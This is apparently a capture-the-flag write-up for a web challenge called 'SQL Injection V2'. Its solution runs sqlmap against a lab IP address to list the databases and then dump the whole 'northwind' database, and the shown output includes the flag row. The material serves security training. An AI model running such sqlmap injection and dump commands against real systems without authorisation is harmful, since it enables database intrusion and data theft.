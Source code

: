 # Web

## SQL Injection V2

Please open [this site](http://178.128.112.149/10_medium)

You are given access to a system that is vulnerable to SQL Injection attacks. Your task is to get a list of all usernames stored in the database. How can you do this?

Hint: Utilizing the UNION operator in SQL, you can combine the results of the original query with a new SELECT statement that retrieves usernames from the users table. Can you create a payload and include it in the id parameter to exploit this vulnerability?

---

### Solution

```bash
$ sqlmap -u "http://178.128.112.149/10_medium/?kata_cari=1" --dbms="MySQL" --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] northwind
[*] performance_schema
[*] sys
```

```bash
$ sqlmap -u "http://178.128.112.149/10_medium/?kata_cari=1" --dbms="MySQL" -D northwind --dump-all --batch

Database: northwind
Table: customers
[91 entries]
```

| 69 | Madrid | Gran Vía, 1 | Spain | 28001 | Alejandra Camino |  BPJS{79393cd51833d7facbc6fc29ef9fce9a} |


>BPJS{79393cd51833d7facbc6fc29ef9fce9a}